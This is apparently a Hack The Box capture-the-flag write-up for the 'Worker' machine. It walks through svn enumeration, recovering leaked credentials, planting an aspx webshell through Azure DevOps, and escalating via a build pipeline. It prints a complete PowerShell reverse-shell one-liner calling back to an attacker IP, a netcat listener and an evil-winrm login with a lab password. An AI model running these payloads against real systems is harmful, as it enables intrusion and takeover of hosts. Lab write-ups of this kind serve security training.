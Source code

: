 # Worker



## Contents

- [**Box**](#Box)
- [**Profile**](#Profile)
- [**Enumeration**](#Enumeration)
- [**Exploitation**](#Exploitation)
- [**Post-exploitation**](#Post-exploitation)
  - [**User**](#User)
  - [**Root**](#Root)




## Box

 ![](img/about_box.png)



## Profile

[![Akinflo](http://www.hackthebox.eu/badge/image/419539)](https://www.hackthebox.eu/home/users/profile/419539)



## Enumeration

First, nmap scan:

 ![](img/nmap.png)



Port 80 is open and Microsoft IIS is used. After a look in the website, i found nothing. So, i tried to look for the 3690 port which is svn service.

I start to list the files in the the svn server using the command:

```bash
svn list svn://10.10.10.203
```

 ![](img/svn_list.png)

After that, i start to connect to this server with:

```bash
svn co svn://10.10.10.203
```

I got this files. In the directory, i read the `index.html` file and got lot of new subdomains:

 ![](img/all_subdomain.png)



I found another new subdomain `devops.worker.htb` in `moved.txt` file:

 ![](img/new_subdomain.png)

After adding the subdomains to my `/etc/hosts` file, i tried to connect on my browser to this webpages. I found nothing on this webpages but `devops.worker.htb` wanted authentication.

So i continue my searches on the svn server to get credentials.

I checked all revisions commited with:

```bash
svn log -v svn://10.10.10.203
```

 ![](img/svn_log.png)



I found a file which is not on the current revision but on the revision 2, so i tried to get it with the export option:

```bash
svn export -r 2 svn://10.10.10.203 revision2
```

 ![](img/revision2.png)

Got it. Have a look in this file and we got credentials:

 ![](img/credentials_svn.png)

Now we can log in the previous webpage.



## Exploitation

Here, Azure Devops is deployed. I search a while on this webpage and i found the subdomains builds on the Azure pipeline section:

 ![](img/pipeline_builds.png)



So, i executed the build pipeline, after that, i found a lot of information about how the website is deployed:

 ![](img/repos_url.png)



I tried to add the `_git/aplha` path to the git repository url: `http://devops.worker.htb/ekenas/SmartHotel360/_git/alpha`

So, i have access to the website git repository, and for all user found previously. First, i create a new branch on the git repo of Lens, after that, i tried to upload different type of files and the **aspx** extension worked. So i upload an **aspx webshell** file, commit it:

 ![](img/commit_shell.png)



After that, i had to validate a pull request to merge the temporarily branch to the master branch:

 ![](img/pull.png)



I tried to load shell.aspx: `http://lens.worker.htb/shell.aspx` and i got the webshell:

 ![](img/webshell.png)



I start my port listener:

```bash
nc -lvp 4242
```



And enter the following payload to get my shell:

```cmd
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.124',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```



And i got it:

 ![](img/reverse_shell.png)



Go to `c:\Users` to list the user, see that is **robisl**, after that, i continue to search credentials and i got a file in the following path `w:\svnrepos\conf\passwd`, and i found **robisl** password  :

 ![](img/user_passwd.png)



## Post-exploitation

### User

I tried to use a windows remote management tool called **evil-winrm** to create remote connection to **robisl** account: 

```bash
evil-winrm -i devops.worker.htb -u robisl -p wolves11
```

 And it worked:

 ![](img/owned_user.png)



### Root

First, i connected to **robisl** account on `devops.worker.htb`, and after some searches, i found that i can trigger powershell command remotely with administrator privileges.

To trigger it, i went to the pipeline section to create a build and i added powershell script to make reverse shell:

 ![](img/powershell_pipeline.png)



After that, i saved and add it on the queue:

 ![](img/queue.png)



When i clicked on this build, i got the reverse shell and owned root:

 ![](img/rooted.png)

